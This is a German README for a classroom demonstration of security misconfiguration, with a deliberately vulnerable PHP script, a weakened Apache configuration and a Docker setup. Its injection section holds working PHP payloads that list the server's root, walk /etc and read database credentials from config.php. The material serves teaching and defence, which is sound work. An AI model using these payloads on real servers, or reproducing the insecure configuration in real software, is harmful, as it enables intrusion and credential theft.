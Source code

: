 # ITS2023 Security Misconfiguration Demonstration

Dieses Projekt dient als Demonstrationsbeispiel für unseren Vortrag über `Security Misconfiguration`.

>*WICHTIG:* Dieses Projekt sollte `NIEMALS` ausserhalb einer geschützten Umgebung ausgeführt werden!!!

# Dateiübersicht

```Text
.                                       Apache2 Webroot /var/www/html
├── README.md
├── docker-compose.yml                  Docker-Compose Datei
|
├── config.php                          Zugangsdaten für z.b. MYSQL DB
├── mysite                              Root der demo Webseite
│   ├── execute.php                     PHP Script welches anfällig für PHP Injection ist
│   └── index.html                      Einstiegspunkt der Webseite
|
└── test-httpd.conf                     Apache Konfiguration
```

## httpd.conf

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks          # erlaubt indexing durch webserver
        # php_admin_value open_basedir /var/www/html    # Limitiert PHP Dateisystemzugriffe auf webroot
        # php_admin_value doc_root /            # Updated PHP Dateisystem root
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

## docker-compose.yml

```yml
version: '3.1'

services:
  php:
    image: php:apache
    volumes:
      - ./:/var/www/html/
      - ./test-httpd.conf:/etc/apache2/sites-available/000-default.conf
    restart: unless-stopped
```

# Getting started


>Im Projektverzeichnis  
`docker-compose up -d`  
ausführen.


> zum neustarten  
`docker-compose restart`

Webseite findet sich unter [http://localhost/mysite](http://localhost/mysite)

# PHP Injection Beispiele

## PHP Script Arbeitsverzeichnis ausgeben
```PHP
echo getcwd();
```
## Dateien im Sever Dateisystem Root ausgeben

### Simple
```PHP
$files = scandir('/'); $output = implode("\n", $files); echo $output;
```

### Tree
```PHP
function list_directory($directory, $level = 0, $prefix = '') {
    $files = scandir($directory);

    // Filter out the '.' and '..' entries
    $files = array_filter($files, function ($file) {
        return $file != '.' && $file != '..';
    });

    $count = count($files);

    foreach ($files as $i => $file) {
        $isLast = $i === $count - 1;

        // Prepare the prefix for child nodes
        $childPrefix = $prefix . ($isLast ? '    ' : '│   ');

        // Display the tree branch
        echo $prefix . ($isLast ? '└── ' : '├── ') . $file;

        $path = $directory . '/' . $file;

        // Display file details similar to 'ls -la'
        $info = new SplFileInfo($path);
        $type = $info->getType();
        $permissions = substr(sprintf('%o', $info->getPerms()), -4);
        $size = $info->getSize();
        $modified = date('Y-m-d H:i:s', $info->getMTime());

        echo " ({$type}, permissions: {$permissions}, size: {$size} bytes, last modified: {$modified})<br>";

        // If the file is a directory, list its contents
        if (is_dir($path)) {
            list_directory($path, $level + 1, $childPrefix);
        }
    }
}

list_directory('/etc');
```

## Datenbankverbindungsinformationen auslesen

### Mit bekannten Variablennamen
```PHP
include '/var/www/html/config.php'; echo DB_HOST . "\n"; echo DB_USER . "\n"; echo DB_PASSWORD . "\n"; echo DB_NAME . "\n";
```

### Via fopen
```PHP
$filename = '../config.php';
$file = fopen($filename, 'r');
if ($file) {
    while (($line = fgets($file)) !== false) {
        echo htmlspecialchars($line);
    }
    fclose($file);
} else {
    echo 'Error opening file.';
}
```

## Wie verhindern?
- Dokumentation lesen / System verstehen
- Entwicklungsumgebung und Produktivumgebung trennen
- Immer nur das mindeste an Berechtigungen geben
- `Best practice` verwenden
- ...

